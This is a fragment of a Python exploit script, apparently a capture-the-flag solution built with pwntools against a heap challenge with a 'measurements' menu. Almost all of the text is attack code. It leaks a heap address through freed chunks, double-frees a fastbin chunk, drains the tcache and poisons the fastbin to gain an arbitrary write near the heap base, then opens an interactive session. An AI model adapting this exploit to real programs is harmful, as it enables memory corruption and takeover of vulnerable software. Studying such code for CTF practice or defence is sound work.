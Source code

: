```python
    # NULL <-> A (free) <-> ... (7) ... ?

    for i in range(7):
        remove_last_measurement()
    # NULL <-> A (free) ?

    remove_last_measurement()
    # double free fastbin A ?
    # NULL <-> NULL

    for i in range(7):
        add_measurement(100000999, 34000,22000, 3000)
    # drain tcache 0x40

    # Arbitrary write with fastbin attack
    add_measurement(heap_start + 0x11e90, 0, 0, 0)
    # first fastbin (A)

    for i in range(7):
        add_measurement(90, u64(b"Z"*8), u64(b"X"*8), 0)
    # take 7 tcache

    add_measurement(0xdeadbeef, 0xdeadc0d3, 0xd3adbeef, 0xd3adc0d3) # place tcache inside an unsorted

    add_measurement(u64(struct.pack('<d', 0.0)), 0x41, u64(struct.pack('<d', 0.0)), u64(struct.pack('<d', 0.0)))
    add_measurement(u64(struct.pack('<d', 0.0)), 0x41, u64(struct.pack('<d', 0.0)), u64(struct.pack('<d', 0.0))) # alloc


def main():
    global r
    r = conn()

    r.recvuntil(b"Choice>\n")

    # heap leak
    for _ in range(11):
        remove_last_measurement()

    heap_leak = list_measurements()[0][0]


    heap_init_offset = 0x14b40
    heap_start = heap_leak - heap_init_offset
    log.warning("heap base : 0x%x", heap_start)
    poison_covariance_matrix(heap_start)
    # Run simulation
    r.sendline(b"5")

    r.interactive()

if __name__ == "__main__":
    main()
```
